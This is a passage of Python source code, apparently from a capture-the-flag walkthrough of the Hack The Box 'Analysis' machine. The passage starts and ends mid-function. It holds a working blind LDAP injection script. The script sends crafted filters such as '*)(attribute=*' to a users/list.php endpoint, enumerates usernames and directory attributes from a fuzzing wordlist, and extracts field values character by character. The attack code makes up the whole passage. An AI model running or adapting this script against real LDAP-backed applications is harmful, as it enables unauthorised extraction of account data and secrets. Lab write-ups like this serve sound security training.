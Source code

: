 ```python
            r = await fetch(session, first_url)
            end_loop = False
            if "CONTACT_" not in r:
                result = char 
                while True:
                    for char in chars:
                        
                        url = f"http://internal.analysis.htb/users/list.php?name={result}{char}*"
                        r = await fetch(session,url)
                        if "CONTACT_" not in r:
                            result += char
                            break
                        else:
                            if char == chars[-1]:
                                end_loop = True
                                results.append(result)
                                p3.status(results)
                                break
                        p1.status(f"{[*chars].index(char) + 1}/{len(chars)}")
                        p2.status(result)
                    if end_loop:
                        break
# Function to enumerate valid fields
async def bruteFields():
    p1 = log.progress("All fields")
    p2 = log.progress("Currently finding attribute")
    results = []
    result = ''
    async with aiohttp.ClientSession() as session:
        with open("/opt/SecLists/Fuzzing/LDAP-active-directory-attributes.txt", "r") as f:
            for attribute in f.readlines():
                p2.status(attribute)
                attribute = attribute.strip("\n")
                url = f"http://internal.analysis.htb/users/list.php?name=*)({attribute}%3d*"
                r = await fetch(session, url)
                
                if "CONTACT_" not in r and "<strong>" in r:
                    results.append(attribute)
                p1.status(results)
# Function to brute content of a specific field
async def bruteFieldContent(field,username):
    p1 = log.progress(f"Brute forcing field '{field}' of username '{username}'")
    p2 = log.progress(f"Content of {field} of {username}")

    result = ''
    end_while_loop = False
    async with aiohttp.ClientSession() as session:
        while True:
            for char in chars:
                p1.status(f"{[*chars].index(char) + 1}/{len(chars)}")
                url = f"http://internal.analysis.htb/users/list.php?name={username})({field}%3d{result}{char}*"
                r = await fetch(session, url)
                end_for_loop = False
                if "CONTACT_" not in r and "<strong>" in r:
                    result += char
                    p2.status(result)
                    break
                elif char == chars[-1]:
                    end_while_loop = True
                    break
                elif char == '*':
                    for char in chars:
```